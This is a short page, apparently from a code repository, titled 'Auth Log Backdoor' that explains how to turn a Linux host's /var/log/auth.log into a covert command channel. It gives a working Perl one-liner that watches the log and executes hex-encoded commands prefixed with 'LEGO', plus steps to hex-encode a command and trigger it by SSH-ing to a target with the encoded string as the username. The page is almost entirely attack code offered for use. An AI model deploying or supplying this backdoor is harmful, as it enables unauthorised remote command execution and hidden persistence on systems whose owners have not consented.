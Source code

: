 # Auth Log Backdoor

By contaminating the` auth.log` file in Linux` /var/log` directory we can setup a backdoor and use it to execute remote commands.

LISTEN:

```
perl -e'while(1){sleep(1);while(<>){system pack("H*",$1)if/LEGO(\w+)/}}'</var/log/auth.log & 
```

EXECUTE REMOTE COMMAND:

```
perl -e 'print "LEGO".unpack("H*","id > /tmp/auth.owned")."\n"'
LEGO6964203e202f746d702f617574682e6f776e6564
ssh LEGO6964203e202f746d702f617574682e6f776e6564@<target_ip>
```
